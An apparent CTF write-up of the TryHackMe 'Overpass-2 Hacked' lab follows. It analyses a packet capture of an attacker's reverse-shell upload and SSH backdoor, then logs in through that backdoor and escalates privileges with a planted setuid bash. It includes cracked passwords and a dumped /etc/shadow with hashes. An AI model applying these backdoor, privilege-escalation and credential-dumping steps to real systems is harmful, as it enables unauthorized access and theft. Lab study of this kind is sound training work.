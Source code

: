 # THM: Overpass-2 Hacked
# OS: Linux (Easy)

----

[NOTES]
- The attacker used `/development/upload.php` to upload a php reverse shell.
- Found creds (internal)
  - `james:whenevernoteartinstant`
- James can run everything as sudo
- The attacker has an ssh backdoor at 0.0.0.0:2222
  - `User: james`
  - `Pass: november16`
  - `File: /home/james/.ssh/id_rsa`
- Cracked 4/5 passwords from /etc/shadow
  - secret12
  - secuirty3
  - 1qaz2wsx
  - abcd123

Usernames:
  - System:
    - james
    - paradox
    - szymex
    - muirland
    
Creds:
  - System:
    - james:whenevernoteartinstant
    - paradox:secret12
    - szymex:secuirty3
    - bee:1qaz2wsx
    - muirland:abcd123

----

[PCAP Analysis]

- Extracted files from PCAP:
  index.html
  'upload(1).php'
  upload.php ----> Has the attackers payload
  uploads
- Found what the attacker did from his shell at pcap line 31 by following the tcp stream.
- The attacker viewed `/etc/shadow`
- The attacker installed an ssh backdoor:
  [NinjaJc01-Backdoor](https://github.com/NinjaJc01/ssh-backdoor)

----

## Foothold

- Got access by using the backdoor on port 2222
  Creds | james:november16
  ```
  ssh -oHostKeyAlgorithms=+ssh-rsa james@$ip -p 2222
  ```

## Privesc

- They created a `.setuid_bash` at james' home directory
  ```
  ./.setuid_bash -p
  ```

----

[LOOT]

```/etc/shadow
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```
